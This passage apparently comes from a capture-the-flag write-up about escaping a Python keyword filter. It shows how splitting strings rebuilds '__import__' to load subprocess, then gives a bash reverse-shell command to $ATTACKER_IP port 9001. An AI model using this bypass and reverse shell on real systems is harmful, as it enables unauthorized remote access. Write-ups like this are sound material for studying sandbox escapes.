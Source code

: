 ![](screenshot_5.png)

It still detect the `import` keyword, except if we split the word into 2 strings :
![](screenshot_6.png)

Perfect ! Let's make a reverse-shell using this. To bypass all banned words, we will use the module "subprocess" which can run bash commands using the `check_output` function :
```
module = globals()["__buil" + "tins__"]["__im" + "port__"]("sub" + "process")

output = module.check_output("bash -c 'bash -i >& /dev/tcp/$ATTACKER_IP/9001 0>&1'", shell=True)
print(output)
```
